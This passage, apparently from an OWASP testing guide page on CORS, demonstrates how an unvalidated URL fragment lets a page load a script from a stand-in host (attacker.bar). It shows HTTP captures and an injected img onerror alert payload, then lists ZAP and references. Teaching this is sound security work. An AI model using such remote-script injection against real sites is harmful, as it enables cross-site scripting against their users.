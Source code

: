 
```
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:20:48 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze17
Vary: Accept-Encoding
Content-Length: 25
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: text/html

[Response Body]
```


Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the example.foo domain, with a URL like this:
```
 http://example.foo/main.php#http://attacker.bar/file.php
```

Request and response generated by this URL:

```
GET http://attacker.bar/file.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
Origin: http://example.foo
Connection: keep-alive
```

```
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 19:00:32 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Vary: Accept-Encoding
Content-Length: 92
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```


![File:CORS-example.png](https://www.owasp.org/images/d/d4/CORS-example.png)
<br><br>
###Tools
* **OWASP Zed Attack Proxy (ZAP)** - https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project
ZAP is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications. It is designed to be used by people with a wide range of security experience and as such is ideal for developers and functional testers who are new to penetration testing. ZAP provides automated scanners as well as a set of tools that allow you to find security vulnerabilities manually.

### References
**OWASP Resources**
* OWASP HTML5 Security Cheat Sheet: https://www.owasp.org/index.php/HTML5_Security_Cheat_Sheet


**Whitepapers**<br/>
* **W3C** - CORS W3C Specification: http://www.w3.org/TR/cors/
